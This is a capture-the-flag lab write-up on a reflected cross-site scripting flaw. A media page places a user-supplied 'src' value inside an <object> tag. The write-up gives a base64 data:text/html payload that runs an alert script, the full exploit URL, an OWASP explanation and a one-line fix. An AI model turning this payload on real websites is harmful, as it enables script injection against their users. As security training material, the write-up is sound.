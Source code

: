 # XSS advanced
We find the only clickable image on the site -> click on it
http://[VM_IP]/?page=media&src=nsa

Here we see that the image is in <object> but not in <img> tag
```
<object data="http://[VM_IP]/images/nsa_prism.jpg"></object>
```

What is [Object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object)?
> The <object> HTML element represents an external resource, which can be treated as an image,
> a nested browsing context, or a resource to be handled by a plugin.

In order for our data to be processed as html, we use the following form:
```
<object data="data:text/html;base64,payload_in_base64"></object>
```

Let's encode our js code to base64
base64(<script>alert("crazy XSS attack");</script>) = "PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg=="

So, let's try this:
```
http://[VM_IP]/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiY3JhenkgWFNTIGF0dGFjayIpOzwvc2NyaXB0Pg==
```

![flag](./img/flag.png)


## Explanation
Attack type: [XSS](https://owasp.org/www-community/attacks/xss/): Cross Site Scripting
> Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted websites. 
> XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user.
> Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

## How to fix it
> Use the <img> tag for images and be careful with the <object>.